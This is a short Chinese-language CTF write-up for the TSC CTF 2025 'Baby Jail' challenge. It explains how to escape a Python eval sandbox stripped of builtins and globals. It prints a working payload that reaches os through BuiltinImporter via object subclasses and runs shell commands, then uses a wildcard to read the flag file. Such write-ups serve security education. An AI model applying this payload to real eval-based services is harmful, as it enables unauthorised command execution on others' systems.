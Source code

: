 ##### tags:`TSC_CTF_2025`

# TSC CTF MISC：Baby Jail

<style>
.red {
  color: red;
}
.blue {
  color: blue;
}
.purple {
  color: #7D3382;
}
.light_purple {
  color: #810cf5;
}
</style>

## <span class="red">**題目**</span>

- ![image](https://hackmd.io/_uploads/SyOUiH7Dyl.png)

&emsp;

## <span class="red">**解題過程**</span>

1. **可以看到這題明顯把 ```__builtins__``` 和 ```__global__``` 刪除掉了，所以想要成功打進去就必須要用 python 的繼承語法(題目沒有擋 ```__class__``` )**

- **```eval()``` 的第一個 argument 控制的是<span class="red">局部命名空間</span>。第二個 argument 控制的是<span class="red">全局命名空間(也就是 ```__global```)</span>**

2. **在幾經嘗試後，成功發現可行的 payload 是：**

- **```(lambda: [x for x in  [].__class__.__base__.__subclasses__() if x.__name__ == 'BuiltinImporter'][0]().load_module('os').system("ls /"))()```**

- **這裡使用的 ```BuiltinImporter``` 負責處理內建 module 的導入操作，可以讓我們動態導入 module ，我們這邊導入 ```os``` 的效果就像是使用 ```__import__('os')```**

&emsp;

3. **在我們成功後，找到 flag 檔名後就能把它 cat 出來，或是向我這邊直接使用 * match 所有 / 底下檔名為 flag 開頭的檔案**

- ![image](https://hackmd.io/_uploads/BJoL3iEDJg.png)
